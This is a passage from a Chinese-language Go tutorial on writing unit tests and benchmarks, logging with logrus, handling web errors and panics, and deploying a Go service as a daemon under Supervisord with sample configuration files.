由于 `go test` 命令只能在一个相应的目录下执行所有文件，所以我们接下来新建一个项目目录 `gotest` ，这样我们所有的代码和测试代码都在这个目录下。

接下来我们在该目录下面创建两个文件：gotest.go 和 gotest_test.go：

1. gotest.go：这个文件里面我们是创建了一个包，里面有一个函数实现了除法运算：

```go
	package gotest
	
	import (
		"errors"
	)
	
	func Division(a, b float64) (float64, error) {
		if b == 0 {
			return 0, errors.New("除数不能为0")
		}
		return a / b, nil
	}
```

2. gotest_test.go：这是我们的单元测试文件，但是记住下面的这些原则：

- 文件名必须是 `_test.go` 结尾的，这样在执行 `go test` 的时候才会执行到相应的代码
- 你必须 import `testing` 这个包
- 所有的测试用例函数必须是 `Test` 开头
- 测试用例会按照源代码中写的顺序依次执行
- 测试函数 `TestXxx()` 的参数是 `testing.T` ，我们可以使用该类型来记录错误或者是测试状态
- 测试格式：`func TestXxx (t *testing.T)` ，`Xxx` 部分可以为任意的字母数字的组合，但是首字母不能是小写字母 [a-z]，例如 `Testintdiv` 是错误的函数名
- 函数中通过调用 `testing.T` 的 `Error`, `Errorf`, `FailNow`, `Fatal`, `FatalIf` 方法，说明测试不通过，调用 `Log` 方法用来记录测试的信息

下面是我们的测试用例的代码：

```go
package gotest

import (
  "testing"
)

func Test_Division_1(t *testing.T) {
  if i, e := Division(6, 2); i != 3 || e != nil { //try a unit test on function
    t.Error("除法函数测试没通过") // 如果不是如预期的那么就报错
  } else {
    t.Log("第一个测试通过了") //记录一些你期望记录的信息
  }
}

func Test_Division_2(t *testing.T) {
  t.Error("就是不通过")
}
```

我们在项目目录下面执行 `go test` ，就会显示如下信息：

```go
--- FAIL: Test_Division_2 (0.00 seconds)
  gotest_test.go:16: 就是不通过
FAIL
exit status 1
FAIL	gotest	0.013s
```

从这个结果显示测试没有通过，因为在第二个测试函数中我们写死了测试不通过的代码 `t.Error` ，那么我们的第一个函数执行的情况怎么样呢？默认情况下执行 `go test` 是不会显示测试通过的信息的，我们需要带上参数 `go test -v` ，这样就会显示如下信息：

```go
=== RUN Test_Division_1
--- PASS: Test_Division_1 (0.00 seconds)
  gotest_test.go:11: 第一个测试通过了
=== RUN Test_Division_2
--- FAIL: Test_Division_2 (0.00 seconds)
  gotest_test.go:16: 就是不通过
FAIL
exit status 1
FAIL	gotest	0.012s
```

上面的输出详细的展示了这个测试的过程，我们看到测试函数 `Test_Division_1` 测试通过，而测试函数 `Test_Division_2` 测试失败了，最后得出结论测试不通过。接下来我们把测试函数 `Test_Division_2` 修改成如下代码：

```go
func Test_Division_2(t *testing.T) {
  if _, e := Division(6, 0); e == nil { //try a unit test on function
    t.Error("Division did not work as expected.") // 如果不是如预期的那么就报错
  } else {
    t.Log("one test passed.", e) //记录一些你期望记录的信息
  }
}	
```

然后我们执行 `go test -v` ，就显示如下信息，测试通过了：

```go
=== RUN Test_Division_1
--- PASS: Test_Division_1 (0.00 seconds)
  gotest_test.go:11: 第一个测试通过了
=== RUN Test_Division_2
--- PASS: Test_Division_2 (0.00 seconds)
  gotest_test.go:20: one test passed. 除数不能为0
PASS
ok  	gotest	0.013s
```

#### 如何编写压力测试

压力测试用来检测函数(方法）的性能，和编写单元功能测试的方法类似,此处不再赘述，但需要注意以下几点：

- 压力测试用例必须遵循如下格式，其中 XXX 可以是任意字母数字的组合，但是首字母不能是小写字母

```go
	func BenchmarkXXX(b *testing.B) { ... }
```

- `go test` 不会默认执行压力测试的函数，如果要执行压力测试需要带上参数 `-test.bench` ，语法： `-test.bench="test_name_regex"` ，例如 `go test -test.bench=".*"` 表示测试全部的压力测试函数
- 在压力测试用例中,请记得在循环体内使用 `testing.B.N` ，以使测试可以正常的运行
- 文件名也必须以 `_test.go` 结尾

下面我们新建一个压力测试文件 webbench_test.go ，代码如下所示：

```go
package gotest

import (
	"testing"
)

func Benchmark_Division(b *testing.B) {
	for i := 0; i < b.N; i++ { //use b.N for looping 
		Division(4, 5)
	}
}

func Benchmark_TimeConsumingFunction(b *testing.B) {
	b.StopTimer() //调用该函数停止压力测试的时间计数

	//做一些初始化的工作,例如读取文件数据,数据库连接之类的,
	//这样这些时间不影响我们测试函数本身的性能

	b.StartTimer() //重新开始时间
	for i := 0; i < b.N; i++ {
		Division(4, 5)
	}
}
```

我们执行命令 `go test webbench_test.go -test.bench=".*"` ，可以看到如下结果：

```go
Benchmark_Division-4   	                     500000000	      7.76 ns/op	     456 B/op	      14 allocs/op
Benchmark_TimeConsumingFunction-4            500000000	      7.80 ns/op	     224 B/op	       4 allocs/op
PASS
ok  	gotest	9.364s
```

上面的结果显示我们没有执行任何 `TestXXX` 的单元测试函数，显示的结果只执行了压力测试函数，第一条显示了 `Benchmark_Division` 执行了 500000000 次，每次的执行平均时间是 7.76 纳秒，第二条显示了 `Benchmark_TimeConsumingFunction` 执行了 500000000，每次的平均执行时间是 7.80 纳秒。最后一条显示总共的执行时间。


## *13. 部署与维护*

### a. 应用日志

Go语言中提供了一个简易的log包，我们使用该包可以方便的实现日志记录的功能，这些日志都是基于fmt包的打印再结合panic之类的函数来进行一般的打印、抛出错误处理。Go目前标准包只是包含了简单的功能，如果我们想把我们的应用日志保存到文件，然后又能够结合日志实现很多复杂的功能，可以使用第三方开发的日志系统，此处我们以 [logrus](https://github.com/sirupsen/logrus) 为例。

#### logrus

logrus 是用 Go 语言实现的一个日志系统，与标准库 log 完全兼容并且核心 API 很稳定，是 Go 语言目前最活跃的日志库。

首先安装 logrus：

```go
go get -u github.com/sirupsen/logrus
```

简单例子：

```go
package main

import (
	log "github.com/Sirupsen/logrus"
)

func main() {
	log.WithFields(log.Fields{
		"animal": "walrus",
	}).Info("A walrus appears")
}
//console output: 
//time="2019-07-18T10:35:41+08:00" level=info msg="A walrus appears" animal=walrus
```

基于 logrus 的自定义日志处理：

```go
package main

import (
	"os"
	log "github.com/Sirupsen/logrus"
)

func init() {
	// 日志格式化为JSON而不是默认的ASCII
	log.SetFormatter(&log.JSONFormatter{})

	// 输出stdout而不是默认的stderr，也可以是一个文件
	log.SetOutput(os.Stdout)

	// 只记录严重或以上警告
	log.SetLevel(log.WarnLevel)
}

func main() {
	log.WithFields(log.Fields{
		"animal": "walrus",
		"size":   10,
	}).Info("A group of walrus emerges from the ocean")

	log.WithFields(log.Fields{
		"omg":    true,
		"number": 122,
	}).Warn("The group's number increased tremendously!")

	log.WithFields(log.Fields{
		"omg":    true,
		"number": 100,
	}).Fatal("The ice breaks!")

	// 通过日志语句重用字段
	// logrus.Entry返回自WithFields()
	contextLogger := log.WithFields(log.Fields{
		"common": "this is a common field",
		"other":  "I also should be logged always",
	})

	contextLogger.Info("I'll be logged with common and other field")
	contextLogger.Info("Me too")
}
```

logrus 内部定义的日志 level 枚举：

```go
const (
	// PanicLevel level, highest level of severity. Logs and then calls panic with the
	// message passed to Debug, Info, ...
	PanicLevel Level = iota
	// FatalLevel level. Logs and then calls `logger.Exit(1)`. It will exit even if the
	// logging level is set to Panic.
	FatalLevel
	// ErrorLevel level. Logs. Used for errors that should definitely be noted.
	// Commonly used for hooks to send errors to an error tracking service.
	ErrorLevel
	// WarnLevel level. Non-critical entries that deserve eyes.
	WarnLevel
	// InfoLevel level. General operational entries about what's going on inside the
	// application.
	InfoLevel
	// DebugLevel level. Usually only enabled when debugging. Very verbose logging.
	DebugLevel
	// TraceLevel level. Designates finer-grained informational events than the Debug.
	TraceLevel
)
```

#### 使用应用日志

对于应用日志，每个人的应用场景可能会各不相同，有些人利用应用日志来做数据分析，有些人利用应用日志来做性能分析，有些人来做用户行为分析，还有些就是纯粹的记录，以方便应用出现问题的时候辅助查找问题。

举一个例子，我们需要跟踪用户尝试登陆系统的操作。这里会把成功与不成功的尝试都记录下来。记录成功的使用 "Info" 日志级别，而不成功的使用 "warn" 级别。如果想查找所有不成功的登陆，我们可以利用 linux 的 grep 之类的命令工具，如下：

```shell
# cat /data/logs/roll.log | grep "failed login"
2012-12-11 11:12:00 WARN : failed login attempt from 11.22.33.44 username password
```

通过这种方式我们就可以很方便的查找相应的信息，这样有利于我们针对应用日志做一些统计和分析。另外我们还需要考虑日志的大小，对于一个高流量的 Web 应用来说，日志的增长是相当可怕的，所以我们需要定制一套日志系统的存储策略，例如淘汰策略等。这样就能保证日志文件不会因为不断变大而导致我们的磁盘空间不够引起问题。


### b. 网站错误处理

#### 常见的错误类型

我们的 Web 应用一旦上线之后，那么各种错误出现的概率都有，Web 应用日常运行中可能出现多种错误，具体如下所示：

- 数据库错误：指与访问数据库服务器或数据相关的错误。例如，以下可能出现的一些数据库错误。
  - 连接错误：这一类错误可能是数据库服务器网络断开、用户名密码不正确、或者数据库不存在。
  - 查询错误：使用的SQL非法导致错误，这样子SQL错误如果程序经过严格的测试应该可以避免。
  - 数据错误：数据库中的约束冲突，例如一个唯一字段中插入一条重复主键的值就会报错，但是如果你的应用程序在上线之前经过了严格的测试也是可以避免这类问题。
- 应用运行时错误：这类错误范围很广，涵盖了代码中出现的几乎所有错误。可能的应用错误的情况如下：
  - 文件系统和权限：应用读取不存在的文件，或者读取没有权限的文件、或者写入一个不允许写入的文件，这些都会导致一个错误。应用读取的文件如果格式不正确也会报错，例如配置文件应该是ini的配置格式，而设置成了json格式就会报错。
  - 第三方应用：如果我们的应用程序耦合了其他第三方接口程序，例如应用程序发表文章之后自动调用接发微博的接口，所以这个接口必须正常运行才能完成我们发表一篇文章的功能。
- HTTP错误：这些错误是根据用户的请求出现的错误，最常见的就是404错误。虽然可能会出现很多不同的错误，但其中比较常见的错误还有401未授权错误(需要认证才能访问的资源)、403禁止错误(不允许用户访问的资源)和503错误(程序内部出错)。
- 操作系统出错：这类错误都是由于应用程序上的操作系统出现错误引起的，主要有操作系统的资源被分配完了，导致死机，还有操作系统的磁盘满了，导致无法写入，这样就会引起很多错误。
- 网络出错：指两方面的错误，一方面是用户请求应用程序的时候出现网络断开，这样就导致连接中断，这种错误不会造成应用程序的崩溃，但是会影响用户访问的效果；另一方面是应用程序读取其他网络上的数据，其他网络断开会导致读取失败，这种需要对应用程序做有效的测试，能够避免这类问题出现的情况下程序崩溃。

#### 错误处理的目标

在实现错误处理之前，我们必须明确错误处理想要达到的目标是什么，错误处理系统应该完成以下工作：

- 通知访问用户出现错误了：不论出现的是一个系统错误还是用户错误，用户都应当知道Web应用出了问题，用户的这次请求无法正确的完成了。例如，对于用户的错误请求，我们显示一个统一的错误页面(404.html)。出现系统错误时，我们通过自定义的错误页面显示系统暂时不可用之类的错误页面(error.html)。
- 记录错误：系统出现错误，一般就是我们调用函数的时候返回err不为nil的情况，可以使用前面小节介绍的日志系统记录到日志文件。如果是一些致命错误，则通过邮件通知系统管理员。一般404之类的错误不需要发送邮件，只需要记录到日志系统。
- 回滚当前的请求操作：如果一个用户请求过程中出现了一个服务器错误，那么已完成的操作需要回滚。下面来看一个例子：一个系统将用户递交的表单保存到数据库，并将这个数据递交到一个第三方服务器，但是第三方服务器挂了，这就导致一个错误，那么先前存储到数据库的表单数据应该删除(应告知无效)，而且应该通知用户系统出现错误了。
- 保证现有程序可运行可服务：我们知道没有人能保证程序一定能够一直正常的运行着，万一哪一天程序崩溃了，那么我们就需要记录错误，然后立刻让程序重新运行起来，让程序继续提供服务，然后再通知系统管理员，通过日志等找出问题。

#### 通知用户错误

错误处理其实我们已经在 [自定义 Erorr 与错误处理](#a. 错误处理) 中有介绍如何设计错误处理，这里我们再从一个例子详细的讲解一下，如何来告诉用户系统发生了错误：

通知用户在访问页面的时候我们可以有两种错误：404.html 和 error.html，下面分别显示了错误页面的源码：

```html
<!-- error.html -->
<html lang="en">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <title>找不到页面</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

</head>
<body>
<div class="container">
    <div class="row">
        <div class="span10">
            <div class="hero-unit">
                <h1>404!</h1>
                <p>{{.ErrorInfo}}</p>
            </div>
        </div><!--/span-->
    </div>
</div>
</body>
</html>
```

```html
<!-- 404.html -->
<html lang="en">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <title>系统错误页面</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

</head>
<body>
<div class="container">
    <div class="row">
        <div class="span10">
            <div class="hero-unit">
                <h1>系统暂时不可用!</h1>
                <p>{{.ErrorInfo}}</p>
            </div>
        </div><!--/span-->
    </div>
</div>
</body>
</html>
```

```go
func (p *MyMux) ServeHTTP(w http.ResponseWriter, r *http.Request) {
    if r.URL.Path == "/" {
        sayhelloName(w, r)
        return
    }
    NotFound404(w, r)
    return
}

func NotFound404(w http.ResponseWriter, r *http.Request) {
  log.Error("页面找不到")   //记录错误日志
  t, _ = t.ParseFiles("tmpl/404.html", nil)  //解析模板文件
    ErrorInfo := "文件找不到" //获取当前报错信息
    t.Execute(w, ErrorInfo)  //执行模板的merger操作
}

func SystemError(w http.ResponseWriter, r *http.Request) {
  log.Critical("系统错误")   //系统错误触发了Critical，那么不仅会记录日志还会发送邮件
  t, _ = t.ParseFiles("tmpl/error.html", nil)  //解析模板文件
    ErrorInfo := "系统暂时不可用" //获取当前报错信息
    t.Execute(w, ErrorInfo)  //执行模板的merger操作
}
```

#### 如何处理异常

我们知道在很多其他语言中有 try…catch 关键词，用来捕获异常情况，但是其实很多错误都是可以预期发生的，而不需要异常处理，应该当做错误来处理，这也是为什么 Go 语言采用了函数返回错误的设计，这些函数不会 panic，例如如果一个文件找不到，os.Open 返回一个错误，它不会 panic；如果你向一个中断的网络连接写数据，net.Conn 系列类型的 Write 函数返回一个错误，它们不会 panic。这些状态在这样的程序里都是可以预期的。你知道这些操作可能会失败，因为设计者已经用返回错误清楚地表明了这一点。这就是上面所讲的可以预期发生的错误。

但是还有一种情况，有一些操作几乎不可能失败，而且在一些特定的情况下也没有办法返回错误，也无法继续执行，这样情况就应该 panic。举个例子：如果一个程序计算 x[j]，但是 j 越界了，这部分代码就会导致 panic，像这样的一个不可预期严重错误就会引起 panic，在默认情况下它会杀掉进程，它允许一个正在运行这部分代码的 goroutine 从发生错误的 panic 中恢复运行，发生 panic 之后，这部分代码后面的函数和代码都不会继续执行，这是 Go 特意这样设计的，因为要区别于错误和异常，panic 其实就是异常处理。如下代码，我们期望通过 uid 来获取 User 中的 username 信息，但是如果 uid 越界了就会抛出异常，这个时候如果我们没有 recover 机制，进程就会被杀死，从而导致程序不可服务。因此为了程序的健壮性，在一些地方需要建立 recover 机制。

```go
func GetUser(uid int) (username string) {
	defer func() {
		if x := recover(); x != nil {
			username = ""
		}
	}()
  
	username = User[uid]
	return
}
```

#### 错误与异常的设计原则

**上面介绍了错误和异常的区别，那么我们在开发程序的时候如何来设计呢？规则很简单：如果你定义的函数有可能失败，它就应该返回一个错误。当我调用其他 package 的函数时，如果这个函数实现的很好，我不需要担心它会 panic，除非有真正的异常情况发生，即使那样也不应该是我去处理它。而 panic 和 recover 是针对自己开发 package 里面实现的逻辑，针对一些特殊情况来设计。**


### c. 应用部署

程序开发完毕之后，我们现在要部署 Web 应用程序了，但是我们如何来部署这些应用程序呢？因为 Go 程序编译之后是一个可执行文件，编写过 C 程序的读者一定知道采用 daemon 就可以完美的实现程序后台持续运行，但是目前 Go 还无法完美的实现 daemon，因此，针对 Go 的应用程序部署，我们可以利用第三方工具来管理，第三方的工具有很多，例如 Supervisord、upstart、daemontools 等，这小节我介绍目前自己系统中采用的工具 Supervisord。

#### daemon

daemon，即守护进程，是指在 UNIX 或其他多任务操作系统中在后台执行的电脑程序，并不会接受电脑用户的直接操控。此类程序会被以进程的形式初始化。

在 mac 端，用户可以自己通过 mac 系统下通过的进程管理器工具 launchctl 来创建一个自定义的 daemon 来帮我们完成一些常驻在后台的功能需求，详见 [mac 守护进程](https://www.jianshu.com/p/df4070f39556)。

目前 Go 程序还不能实现 daemon，详细的见这个 Go 语言的 bug：<`http://code.google.com/p/go/issues/detail?id=227`>，大概的意思说很难从现有的使用的线程中 fork 一个出来，因为没有一种简单的方法来确保所有已经使用的线程的状态一致性问题。

但是我们可以看到很多网上的一些实现 daemon 的方法，例如下面两种方式：

- MarGo 的一个实现思路，使用 Command 来执行自身的应用，如果真想实现，那么推荐这种方案：

```go
d := flag.Bool("d", false, "Whether or not to launch in the background(like a daemon)")
if *d {
	cmd := exec.Command(os.Args[0],
		"-close-fds",
		"-addr", *addr,
		"-call", *call,
	)
	serr, err := cmd.StderrPipe()
	if err != nil {
		log.Fatalln(err)
	}
	err = cmd.Start()
	if err != nil {
		log.Fatalln(err)
	}
	s, err := ioutil.ReadAll(serr)
	s = bytes.TrimSpace(s)
	if bytes.HasPrefix(s, []byte("addr: ")) {
		fmt.Println(string(s))
		cmd.Process.Release()
	} else {
		log.Printf("unexpected response from MarGo: `%s` error: `%v`\n", s, err)
		cmd.Process.Kill()
	}
}
```

- 另一种是利用 syscall 的方案，但是这个方案并不完善：

```go
package main
 
import (
	"log"
	"os"
	"syscall"
)
 
func daemon(nochdir, noclose int) int {
	var ret, ret2 uintptr
	var err uintptr
 
	darwin := syscall.OS == "darwin"
 
	// already a daemon
	if syscall.Getppid() == 1 {
		return 0
	}
 
	// fork off the parent process
	ret, ret2, err = syscall.RawSyscall(syscall.SYS_FORK, 0, 0, 0)
	if err != 0 {
		return -1
	}
 
	// failure
	if ret2 < 0 {
		os.Exit(-1)
	}
 
	// handle exception for darwin
	if darwin && ret2 == 1 {
		ret = 0
	}
 
	// if we got a good PID, then we call exit the parent process.
	if ret > 0 {
		os.Exit(0)
	}
 
	/* Change the file mode mask */
	_ = syscall.Umask(0)
 
	// create a new SID for the child process
	s_ret, s_errno := syscall.Setsid()
	if s_errno != 0 {
		log.Printf("Error: syscall.Setsid errno: %d", s_errno)
	}
	if s_ret < 0 {
		return -1
	}
 
	if nochdir == 0 {
		os.Chdir("/")
	}
 
	if noclose == 0 {
		f, e := os.OpenFile("/dev/null", os.O_RDWR, 0)
		if e == nil {
			fd := f.Fd()
			syscall.Dup2(fd, os.Stdin.Fd())
			syscall.Dup2(fd, os.Stdout.Fd())
			syscall.Dup2(fd, os.Stderr.Fd())
		}
	}
 
	return 0
}	
```

上面提出了两种实现 Go 的 daemon 方案，但是我还是不推荐大家这样去实现，因为官方还没有正式的宣布支持 daemon，当然第一种方案目前来看是比较可行的，而且目前开源库 skynet 也在采用这个方案做 daemon。

#### Supervisord

上面已经介绍了 Go 目前是有两种方案来实现它的 daemon，但是官方本身还不支持这一块，所以还是建议大家采用第三方成熟工具来管理我们的应用程序，这里我们推荐使用 Supervisord。Supervisord 是用 Python 实现的一款非常实用的进程管理工具 (目前已有用 golang 重写的版本：[ochinchina/supervisord ](https://github.com/ochinchina/supervisord)) 。supervisord 会帮你把管理的应用程序转成 daemon 程序，而且可以方便的通过命令开启、关闭、重启等操作，而且它管理的进程一旦崩溃会自动重启，这样就可以保证程序执行中断后的情况下有自我修复的功能。

> 我前面在应用中踩过一个坑，就是因为所有的应用程序都是由 Supervisord 父进程生出来的，那么当你修改了操作系统的文件描述符之后，别忘记重启 Supervisord，光重启下面的应用程序没用。当初我就是系统安装好之后就先装了 Supervisord，然后开始部署程序，修改文件描述符，重启程序，以为文件描述符已经是100000了，其实 Supervisord 这个时候还是默认的1024个，导致他管理的进程所有的描述符也是1024。开放之后压力一上来系统就开始报文件描述符用光了，查了很久才找到这个坑。

##### 安装与配置

此处以 mac 为例，其他系统安装方法参考 [Supervisord 官网](http://supervisord.org/introduction.html#platform-requirements) 。

首先我们使用 homebrew 下载 Supervisord：

```shell
$ brew install supervisor
```

安装完之后，我们选择以下两种启动方式之一来启动：

方法1：手动启动（刚开始学的时候，推荐方法），并指定**主配置文件**启动

```shell
$ supervisord -c /usr/local/etc/supervisord.ini
```

方法2：自动随系统启动（部署生产环境，推荐方法）

```shell
$ brew services start supervisor
```

> 不过此处需要注意的是，启动前最好在 /usr/local/etc/supervisord.ini 文件中，将前面部分的 ";" (配置文件的注释) 去掉，才能正确启动 supervisoctl，否则可能会报 "http://localhost:9001 refused connection" 的错误。

我这边提供一份主配置文件的范例：

```ini
; Sample supervisor config file.
;
; For more information on the config file, please see:
; http://supervisord.org/configuration.html
;
; Notes:
;  - Shell expansion ("~" or "$HOME") is not supported.  Environment
;    variables can be expanded using this syntax: "%(ENV_HOME)s".
;  - Quotes around values are not supported, except in the case of
;    the environment= options as shown below.
;  - Comments must have a leading space: "a=b ;comment" not "a=b;comment".
;  - Command will be truncated if it looks like a config file comment, e.g.
;    "command=bash -c 'foo ; bar'" will truncate to "command=bash -c 'foo ".

[unix_http_server]
file=/usr/local/var/run/supervisor.sock   ; the path to the socket file
chmod=0700                 ; socket file mode (default 0700)
chown=nobody:nogroup       ; socket file uid:gid owner
username=user              ; default is no username (open server)
password=123               ; default is no password (open server)

[inet_http_server]         ; inet (TCP) server disabled by default
port=127.0.0.1:9001        ; ip_address:port specifier, *:port for all iface
username=user              ; default is no username (open server)
password=123               ; default is no password (open server)

[supervisord]
logfile=/usr/local/var/log/supervisord.log ; main log file; default $CWD/supervisord.log
logfile_maxbytes=50MB        ; max main logfile bytes b4 rotation; default 50MB
logfile_backups=10           ; # of main logfile backups; 0 means none, default 10
loglevel=info                ; log level; default info; others: debug,warn,trace
pidfile=/usr/local/var/run/supervisord.pid ; supervisord pidfile; default supervisord.pid
nodaemon=false               ; start in foreground if true; default false
minfds=1024                  ; min. avail startup file descriptors; default 1024
minprocs=200                 ; min. avail process descriptors;default 200
;umask=022                   ; process file creation umask; default 022
;user=supervisord            ; setuid to this UNIX account at startup; recommended if root
;identifier=supervisor       ; supervisord identifier, default is 'supervisor'
;directory=/tmp              ; default is not to cd during start
;nocleanup=true              ; don't clean up tempfiles at start; default false
;childlogdir=/tmp            ; 'AUTO' child log dir, default $TEMP
;environment=KEY="value"     ; key value pairs to add to environment
;strip_ansi=false            ; strip ansi escape codes in logs; def. false

; The rpcinterface:supervisor section must remain in the config file for
; RPC (supervisorctl/web interface) to work.  Additional interfaces may be
; added by defining them in separate [rpcinterface:x] sections.

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

; The supervisorctl section configures how supervisorctl will connect to
; supervisord.  configure it match the settings in either the unix_http_server
; or inet_http_server section.

[supervisorctl]
serverurl=unix:///usr/local/var/run/supervisor.sock ; use a unix:// URL  for a unix socket
;serverurl=http://127.0.0.1:9001 ; use an http:// url to specify an inet socket
;username=chris              ; should be same as in [*_http_server] if set
;password=123                ; should be same as in [*_http_server] if set
;prompt=mysupervisor         ; cmd line prompt (default "supervisor")
;history_file=~/.sc_history  ; use readline history if available

; The sample program section below shows all possible program subsection values.
; Create one or more 'real' program: sections to be able to control them under
; supervisor.

;[program:theprogramname]
;command=/bin/cat              ; the program (relative uses PATH, can take args)
;process_name=%(program_name)s ; process_name expr (default %(program_name)s)
;numprocs=1                    ; number of processes copies to start (def 1)
;directory=/tmp                ; directory to cwd to before exec (def no cwd)
;umask=022                     ; umask for process (default None)
;priority=999                  ; the relative start priority (default 999)
;autostart=true                ; start at supervisord start (default: true)
;startsecs=1                   ; # of secs prog must stay up to be running (def. 1)
;startretries=3                ; max # of serial start failures when starting (default 3)
;autorestart=unexpected        ; when to restart if exited after running (def: unexpected)
;exitcodes=0                   ; 'expected' exit codes used with autorestart (default 0)
;stopsignal=QUIT               ; signal used to kill process (default TERM)
;stopwaitsecs=10               ; max num secs to wait b4 SIGKILL (default 10)
;stopasgroup=false             ; send stop signal to the UNIX process group (default false)
;killasgroup=false             ; SIGKILL the UNIX process group (def false)
;user=chrism                   ; setuid to this UNIX account to run the program
;redirect_stderr=true          ; redirect proc stderr to stdout (default false)
;stdout_logfile=/a/path        ; stdout log path, NONE for none; default AUTO
;stdout_logfile_maxbytes=1MB   ; max # logfile bytes b4 rotation (default 50MB)
;stdout_logfile_backups=10     ; # of stdout logfile backups (0 means none, default 10)
;stdout_capture_maxbytes=1MB   ; number of bytes in 'capturemode' (default 0)
;stdout_events_enabled=false   ; emit events on stdout writes (default false)
;stdout_syslog=false           ; send stdout to syslog with process name (default false)
;stderr_logfile=/a/path        ; stderr log path, NONE for none; default AUTO
;stderr_logfile_maxbytes=1MB   ; max # logfile bytes b4 rotation (default 50MB)
;stderr_logfile_backups=10     ; # of stderr logfile backups (0 means none, default 10)
;stderr_capture_maxbytes=1MB   ; number of bytes in 'capturemode' (default 0)
;stderr_events_enabled=false   ; emit events on stderr writes (default false)
;stderr_syslog=false           ; send stderr to syslog with process name (default false)
;environment=A="1",B="2"       ; process environment additions (def no adds)
;serverurl=AUTO                ; override serverurl computation (childutils)

; The sample eventlistener section below shows all possible eventlistener
; subsection values.  Create one or more 'real' eventlistener: sections to be
; able to handle event notifications sent by supervisord.

;[eventlistener:theeventlistenername]
;command=/bin/eventlistener    ; the program (relative uses PATH, can take args)
;process_name=%(program_name)s ; process_name expr (default %(program_name)s)
;numprocs=1                    ; number of processes copies to start (def 1)
;events=EVENT                  ; event notif. types to subscribe to (req'd)
;buffer_size=10                ; event buffer queue size (default 10)
;directory=/tmp                ; directory to cwd to before exec (def no cwd)
;umask=022                     ; umask for process (default None)
;priority=-1                   ; the relative start priority (default -1)
;autostart=true                ; start at supervisord start (default: true)
;startsecs=1                   ; # of secs prog must stay up to be running (def. 1)
;startretries=3                ; max # of serial start failures when starting (default 3)
;autorestart=unexpected        ; autorestart if exited after running (def: unexpected)
;exitcodes=0                   ; 'expected' exit codes used with autorestart (default 0)
;stopsignal=QUIT               ; signal used to kill process (default TERM)
;stopwaitsecs=10               ; max num secs to wait b4 SIGKILL (default 10)
;stopasgroup=false             ; send stop signal to the UNIX process group (default false)
;killasgroup=false             ; SIGKILL the UNIX process group (def false)
;user=chrism                   ; setuid to this UNIX account to run the program
;redirect_stderr=false         ; redirect_stderr=true is not allowed for eventlisteners
;stdout_logfile=/a/path        ; stdout log path, NONE for none; default AUTO
;stdout_logfile_maxbytes=1MB   ; max # logfile bytes b4 rotation (default 50MB)
;stdout_logfile_backups=10     ; # of stdout logfile backups (0 means none, default 10)
;stdout_events_enabled=false   ; emit events on stdout writes (default false)
;stdout_syslog=false           ; send stdout to syslog with process name (default false)
;stderr_logfile=/a/path        ; stderr log path, NONE for none; default AUTO
;stderr_logfile_maxbytes=1MB   ; max # logfile bytes b4 rotation (default 50MB)
;stderr_logfile_backups=10     ; # of stderr logfile backups (0 means none, default 10)
;stderr_events_enabled=false   ; emit events on stderr writes (default false)
;stderr_syslog=false           ; send stderr to syslog with process name (default false)
;environment=A="1",B="2"       ; process environment additions
;serverurl=AUTO                ; override serverurl computation (childutils)

; The sample group section below shows all possible group values.  Create one
; or more 'real' group: sections to create "heterogeneous" process groups.

;[group:thegroupname]
;programs=progname1,progname2  ; each refers to 'x' in [program:x] definitions
;priority=999                  ; the relative start priority (default 999)

; The [include] section can just contain the "files" setting.  This
; setting can list multiple files (separated by whitespace or
; newlines).  It can also contain wildcards.  The filenames are
; interpreted as relative to this file.  Included files *cannot*
; include files themselves.

[include]
files = /usr/local/etc/supervisor.d/*.ini
```

修改完之后启动 supervisorctl，supervisorctl 是 supervisord 的一个命令行客户端工具，启动时需要指定与 supervisord 使用同一份配置文件，否则与 supervisord 一样按照顺序查找配置文件。

```shell
$ supervisorctl -c /usr/local/etc/supervisord.ini
```

也可以通过主配置文件打开的 [inet_http_server] 下的 port 地址登录 web GUI 页面来管理进程：

```ini
[inet_http_server]         ; inet (TCP) server disabled by default
port=127.0.0.1:9001        ; ip_address:port specifier, *:port for all iface
username=user              ; default is no username (open server)
password=123               ; default is no password (open server)
```

我们可以查看 supervisord 是否在运行：

```bash
ps aux | grep supervisord
```

##### 创建一个 daemon

以下我们创建一个 go 的应用程序，然后借助 supervisord 来帮助我们将应用程序转换成 daemon。

首先我们编写一个 supervisor_app.go ：

```go
package main

import (
	"fmt"
	"log"
"net/http"
)

func sayhelloName(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()       //解析参数，默认是不会解析的
	fmt.Println(r.Form) //这些信息是输出到服务器端的打印信息
	fmt.Println("path", r.URL.Path)
	fmt.Println("scheme", r.URL.Scheme)
	fmt.Fprintf(w, "I'm a daemon 😁") //这个写入到w的是输出到客户端的
}

func main() {
	http.HandleFunc("/", sayhelloName)       //设置访问的路由
	err := http.ListenAndServe(":9090", nil) //设置监听的端口
	if err != nil {
		log.Fatal("ListenAndServe: ", err)
	}
}
```

然后我们编译它，在本地目录会生成一个可执行文件：

```shell
go build
```

然后我们需要创建一个与之对应的子配置，我们可以看到主配置文件的末尾有标注子配置文件加载的位置：

```ini
[include]
files = /usr/local/etc/supervisor.d/*.ini
```

我们需要创建一个 supervisor.d 的文件夹，并将我们写好的子配置文件放到里面，以下是子配置文件的一个范例：

```ini
; 设置进程的名称，使用 supervisorctl 来管理进程时需要使用该进程名
[program:supervisord_test_daemon]
;directory = /usr/local/bin            ; 程序的启动目录
command=/Users/silentcat/Golang/Workspace/build-web-application-with-golang/src/supervisor_app/supervisor_app queue:work  ;启动命令，最好是绝对路径
autostart=true                 ;在supervisord启动的时候也自动启动
startsecs=10                   ;启动10秒后没有异常退出，就表示进程正常启动了，默认为1秒
autorestart=true               ;程序退出后自动重启，可选值:[unexpected,true,flase],默认为unexpected，表示进程意味杀死后才重启
startretries=3                 ;启动失败自动重试次数，默认是3
user=root                      ;用哪个用户启动进程，默认是root
priority=999                   ;进行启动优先级，默认999，值小的优先启动
redirect_stderr=true           ;把stderr重定向到stdout，默认false
stdout_logfile_maxbytes=20MB   ;stdout日志文件大小，默认50MB
stdout_logfile_backups=20      ;stdout日志文件备份数，默认是10
;stdout日志文件，需要注意当指定目录不存在时无法正常启动，所以需要手动创建目录(supervisord会自动创建日志文件)
